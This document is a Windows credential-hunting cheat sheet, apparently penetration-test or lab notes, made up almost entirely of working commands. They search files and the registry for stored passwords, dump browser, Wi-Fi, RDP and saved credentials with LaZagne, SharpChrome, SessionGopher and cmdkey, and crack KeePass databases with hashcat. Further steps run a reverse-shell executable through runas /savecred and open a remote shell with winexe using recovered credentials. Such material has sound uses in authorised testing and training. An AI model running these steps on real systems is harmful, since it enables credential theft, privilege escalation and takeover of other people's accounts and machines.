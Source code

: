 # ✅ Windows Credential Hunting (Cheat Sheet)


- [ ] kdbx search
---

## 🎯 Quick Wins
- [ ] **Find Plaintext Credentials in Config Files** → *.config, *.xml, *.ini, *.txt
- [ ] **Check PowerShell History** → ConsoleHost_history.txt
- [ ] **Look for Unattend Files** → unattend.xml, sysprep.inf
- [ ] **Search Chrome Dictionary Files** → Custom Dictionary.txt
- [ ] **Grab Stored PowerShell Credentials** → Export-Clixml files
- [ ] **Inspect Sticky Notes DB** → plum.sqlite
- [ ] **Enumerate Saved Creds with cmdkey** → /list
- [ ] **Dump Browser Passwords** → SharpChrome
- [ ] **Run LaZagne for Multi-App Credential Dump**
- [ ] **Find KeePass DB Files** → *.kdbx
- [ ] **Enumerate AutoLogon in Registry**
- [ ] **Recover Wi-Fi Passwords** → netsh wlan show profile key=clear
- [ ] check for `c:\\programdata` , `C:\Users\All USers` , `C:\Program Files` for sensitive files , also check for hidden files and other directories
- [ ] can i dump sam , system , security , ntds ?
- [ ] search for users

---

##  ✅ Hidden in Plain View

```c
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

```


## ✅ File & Config Searches

```c
.\winPEASany.exe quiet cmd searchfast filesinfo
```

```powershell
# Search for credentials in common config/text files
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml

# Recursive search for "password"
findstr /si password *.*

# PowerShell alternative
Select-String -Path C:\Users\*\Documents\*.txt -Pattern "password"

# Search for common credential-related file names
dir /S /B *pass*.txt == *pass*.xml == *cred* == *vnc* == *.config*
where /R C:\ *.config

dir /s *pass* == *.config
findstr /si password *.xml *.ini *.txt
```
## ✅ IIS Config Files (Example)
```c
# Check IIS default web.config
C:\inetpub\wwwroot\web.config
```
## ✅ Chrome Dictionary Files
```c
# Look for saved passwords in Chrome's Custom Dictionary
gc 'C:\Users\<user>\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String "password"
```
## ✅ Unattended Installation Files
```c
# Common location
C:\Windows\Panther\unattend.xml
# Look for <Password> tags in XML
```
## ✅ PowerShell History
```c
# Default location
C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# Enumerate all users' history
foreach($user in ((ls C:\users).fullname)){
  cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue
}
```
## ✅ PowerShell Stored Credentials
```c
# Load and decrypt saved credentials
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
$credential.GetNetworkCredential().Username
$credential.GetNetworkCredential().Password
```
## ✅ Sticky Notes DB
```c
# Location
C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite

# Query notes for secrets
Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note"
```
## ✅ Saved Credentials (cmdkey)

```c
# 1.Use winPEAS to check for saved credentials:
> .\winPEASany.exe quiet cmd windowscreds

# 2.It appears that saved credentials for the admin user exist.

# 3.We can verify this manually using the following command:
> cmdkey /list

# 4.If the saved credentials aren’t present, run the following script to refresh the credential:
> C:\PrivEsc\savecred.bat

# 5.We can use the saved credential to run any command as the admin user. Start a listener on Kali and run the reverse shell executable:
> runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

```c
cmdkey /list
# Example:
# Target: TERMSRV/SQL01
# User: inlanefreight\bob
```
## ✅ Run as Saved Credential
```c
runas /savecred /user:DOMAIN\username "COMMAND"
```
## ✅ Browser Credentials
```c
# Use SharpChrome to dump Chrome saved logins
SharpChrome.exe logins /unprotect
```
## ✅ KeePass Hash Extraction
```c
# Convert KeePass DB to hash
keepass2john.py file.kdbx > hash.txt

# Crack with hashcat
hashcat -m 13400 hash.txt rockyou.txt
```
## ✅ LaZagne – Multi-App Credential Dump
```c
lazagne.exe all
# Dumps creds from browsers, chat apps, RDP, WinSCP, etc.
```
## ✅ SessionGopher – Saved RDP/SSH Credentials
```c
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target localhost
```

## ✅ Searching the Registry for Passwords

```c
# The following commands will search the registry for keys and values that contain “password”
> reg query HKLM /f password /t REG_SZ /s
> reg query HKCU /f password /t REG_SZ /s
# This usually generates a lot of results, so often it is more fruitful to look in known locations
```

```c
# 1.Use winPEAS to check common password locations:
> .\winPEASany.exe quiet filesinfo userinfo
# (the final checks will take a long time to complete)

# 2.The results show both AutoLogon credentials and Putty session credentials for the admin user (admin/password123).

# 3.We can verify these manually:
> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s

# 4.On Kali, we can use the winexe command to spawn a shell using these credentials:

# winexe -U 'admin%password123' //192.168.1.22 cmd.exe
```

## ✅ Registry – Windows AutoLogon
```c
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
# Look for:
# AutoAdminLogon, DefaultUserName, DefaultPassword
```
## ✅ Registry – PuTTY Sessions
```c
reg query "HKCU\SOFTWARE\SimonTatham\PuTTY\Sessions\<SESSION NAME>"
# Look for ProxyUsername, ProxyPassword
```
## ✅ Wi-Fi Passwords
```c
netsh wlan show profile
netsh wlan show profile <SSID> key=clear
```
## ✅ Interesting Files to Check
```c
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
C:\ProgramData\Configs\*
%USERPROFILE%\ntuser.dat
```
